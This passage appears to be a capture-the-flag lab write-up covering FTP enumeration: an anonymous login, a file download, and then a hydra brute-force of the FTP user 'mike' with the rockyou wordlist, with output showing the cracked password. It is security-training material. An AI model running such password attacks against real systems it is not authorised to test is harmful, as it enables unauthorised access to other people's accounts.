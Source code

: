 An output similar to below will be obtained.
{% capture code %}{% raw %}Connected to <ip>.
220 Welcome to the administrator FTP service.
Name (<ip>:<user>): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.{% endraw %}{% endcapture %} {% include code.html code=code%}

Get the contents of file `PUBLIC_NOTICE.txt` to check if any useful information is available.
{% capture code %}{% raw %}ftp> pwd
  257 "/" is the current directory
ftp> ls
  200 PORT command successful. Consider using PASV.
  150 Here comes the directory listing.
  -rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
  226 Directory send OK.
ftp> get "PUBLIC_NOTICE.txt"
  local: PUBLIC_NOTICE.txt remote: PUBLIC_NOTICE.txt
  200 PORT command successful. Consider using PASV.
  150 Opening BINARY mode data connection for PUBLIC_NOTICE.txt (353 bytes).
  226 Transfer complete.
  353 bytes received in 0.00 secs (137.7254 kB/s)
ftp> !cat PUBLIC_NOTICE.txt{% endraw %}{% endcapture %} {% include code.html code=code%}


### Task 10 - Exploiting FTP

Use these links as references.
- [Securing FTP](https://www.jscape.com/blog/bid/91906/Countering-Packet-Sniffers-Using-Encrypted-FTP){:target="_blank"}
- [NMAP Reference](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}
- [Install Hydra](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-hydra){:target="_blank"}
- [Wordlist Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#wordlists---rockyou){:target="_blank"}


Use `hydra` to exploit ftp.
{% capture code %}{% raw %}hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp{% endraw %}{% endcapture %} {% include code.html code=code%}

An output similar to below will be obtained.
{% capture code %}{% raw %}Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal  purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-03 00:56:15
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://<ip>:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target <ip> - login "mike" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target <ip> - login "mike" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target <ip> - login "mike" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target <ip> - login "mike" - pass "password" - 4 of 14344399 [child 3] (0/0)
[21][ftp] host: <ip>   login: mike   password: password
[STATUS] attack finished for <ip> (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-03 00:56:22{% endraw %}{% endcapture %} {% include code.html code=code%}

